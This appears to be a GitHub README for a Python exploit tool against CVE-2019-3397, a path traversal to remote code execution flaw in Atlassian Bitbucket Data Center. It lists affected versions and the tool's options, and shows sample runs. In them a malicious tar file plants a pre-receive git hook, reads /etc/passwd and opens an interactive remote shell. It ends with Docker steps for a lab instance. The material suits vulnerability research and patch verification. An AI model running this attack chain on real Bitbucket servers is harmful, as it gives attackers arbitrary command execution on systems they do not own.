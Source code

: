 # BitBucket Tar\\../ersal to Remote Code Execution - CVE-2019-3397

## Description
Atlassian Bitbucket Data Center licensed instances starting with version 5.13.0 before 5.13.6 (the fixed version for 5.13.x), from 5.14.0 before 5.14.4 (fixed version for 5.14.x), from 5.15.0 before 5.15.3 (fixed version for 5.15.x), from 5.16.0 before 5.16.3 (fixed version for 5.16.x), from 6.0.0 before 6.0.3 (fixed version for 6.0.x), and from 6.1.0 before 6.1.2 (the fixed version for 6.1.x) allow remote attackers who have admin permissions to achieve remote code execution on a Bitbucket server instance via path traversal through the Data Center migration tool.

## Tested On
- BitBucket Data Center v5.15.0
- BitBucket Data Center v6.1.1

## Usage

### Required arguments
- \-\-target/-t - URL of the target BitBucket Data Center instance
- \-\- project/-pr - BitBucket project key of the repository
- \-\- repository/-rp - BitBucket repository name

```bash
$ ./bitbucket-tarversal.py --help

usage: bitbucket-tarversal.py [-h] [--target TARGET] [--project PROJECT]
                              [--repository REPOSITORY] [--command COMMAND]
                              [--target-project TARGET_PROJECT]
                              [--target-repository TARGET_REPOSITORY]
                              [--username USERNAME] [--password PASSWORD]
                              [--insecure]

Bitbucket Path Traversal to RCE - CVE-2019-3397

optional arguments:
  -h, --help            show this help message and exit
  --target TARGET, -t TARGET
                        URL of the target BitBucket Data Center instance e.g.
                        http(s)://localhost:7990
  --project PROJECT, -pr PROJECT
                        BitBucket project key of the repository you want to 
                        attach the malicious tar file to.
  --repository REPOSITORY, -rp REPOSITORY
                        BitBucket repository name of the repository you 
                        want to attach the malicious tar file to.
  --target-project TARGET_PROJECT, -tp TARGET_PROJECT
                        BitBucket project key of the target repository to
                        inject the malicious git hook. If omitted, the value 
                        specified in --project/-pr will be used.
  --target-repository TARGET_REPOSITORY, -tr TARGET_REPOSITORY
                        BitBucket repository name of the target repository to
                        inject the malicious git hook. If omitted, the value 
                        specified in --repository/-rp will be used.
  --command COMMAND, -c COMMAND
                        Shell command to execute. If ommitted, it will be 
                        asked in prompt.
  --username USERNAME, -u USERNAME
                        BitBucket username. If not supplied, it will be asked
                        in prompt.
  --password PASSWORD, -p PASSWORD
                        BitBucket password. If not supplied, it will be asked
                        in prompt.
  --insecure, -k        Do not verify SSL certificate. Turn on this option 
                        when the SSL certificate of the remote host is not valid.
  --interactive, -i     Spawn an interactive shell.
```

### Sample usage and output
#### Single Command
```bash
$ ./bitbucket-tarversal.py --target http://localhost:7990 \
--project PRJ1 --repository REPO1
BitBucket username: admin
BitBucket password:
[+] Logging in...Success!
Enter your shell command
$ cat /etc/passwd
[+] Generating a malicious tar file
    [+] Preparing git hooks
        [+] Fetching target repository details
    [+] Full path is ../../31/hooks/pre-receive
    [+] Injecting malicious git hook to the tar file
[+] Importing the malicious tar file as attachment to BitBucket
    [+] Uploading tar as an attachment...Success! The tar file is located at ../../attachments/repository/31/4f8c4574db/import_tmp.tar
    [+] Calling the import REST API...Success!
[+] Triggerring a git push event
    [+] Cloning PRJ1/REPO1
    [+] Committing an empty commit
    [+] Pushing the commit. You should be able to see any output from the shell command below.
remote: root:x:0:0:root:/root:/bin/bash
remote: daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
remote: bin:x:2:2:bin:/bin:/usr/sbin/nologin
remote: sys:x:3:3:sys:/dev:/usr/sbin/nologin
remote: sync:x:4:65534:sync:/bin:/bin/sync
remote: games:x:5:60:games:/usr/games:/usr/sbin/nologin
remote: man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
remote: lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
remote: mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
remote: news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
remote: uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
remote: proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
remote: www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
remote: backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
remote: list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin                    
remote: irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin                                 
remote: gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
remote: nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin                       
remote: systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin                                                                              
remote: systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin                                                                                      
remote: _apt:x:102:65534::/nonexistent:/usr/sbin/nologin
remote: systemd-timesync:x:103:107:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin                                                                                 
remote: Debian-exim:x:104:110::/var/spool/exim4:/usr/sbin/nologin                        
remote: messagebus:x:105:111::/nonexistent:/usr/sbin/nologin                             
remote: postgres:x:106:114:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash     
remote: atlbitbucket:x:1000:1000:Atlassian Bitbucket:/var/atlassian/application-data/bitbucket:/bin/sh                                                                            
[+] Cleaning up  
```

#### Interactive
```bash
$ ./bitbucket-tarversal.py --target http://localhost:7990 \
--project PRJ1 --repository REPO1 --interactive
BitBucket username: admin
BitBucket password:
$ whoami
remote: atlbitbucket
$ ifconfig
remote: eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
remote:         inet 172.17.0.2  netmask 255.255.0.0  broadcast 172.17.255.255
remote:         ether 02:42:ac:11:00:02  txqueuelen 0  (Ethernet) remote: RX packets 1484  bytes 1145416 (1.0 MiB)
remote:         RX errors 0  dropped 0  overruns 0  frame 0
remote:         TX packets 1353  bytes 532981 (520.4 KiB)
remote:         TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
remote:
remote: lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
remote:         inet 127.0.0.1  netmask 255.0.0.0
remote:         loop  txqueuelen 1  (Local Loopback)
remote:         RX packets 1350  bytes 183940 (179.6 KiB)
remote:         RX errors 0  dropped 0  overruns 0  frame 0
remote:         TX packets 1350  bytes 183940 (179.6 KiB)
remote:         TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
remote:
$ exit
[+] Exiting...
```

## Resources
- [Bitbucket 6.1.1 Path Traversal to RCE](https://blog.ripstech.com/2019/bitbucket-path-traversal-to-rce/)
- [CVE-2019-3397](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-3397)
- [Demo Video](https://youtu.be/2Y8iYTu4kV0)

## Testing with Docker

1. Pull BitBucket docker image: `docker pull atlassian/bitbucket:6.1.1`.
2. Run BitBucket server: `docker run --mount source=bitbucketVolume,target=/var/atlassian/application-data/bitbucket --name="bitbucket" -d -p 7990:7990 -p 7999:7999 atlassian/bitbucket:6.1.1`.
3. Access BitBucket on `http://localhost:7990/`.
4. Set up BitBucket and choose to install BitBucket for evaluation. This step requires a BitBucket account.
5. Continue to set up an administrator account.
6. Create a project and a repository under that project. Take note of the project and repository keys.
7. Run `bitbucket-tarversal.py`.
8. ???
9. Profit.
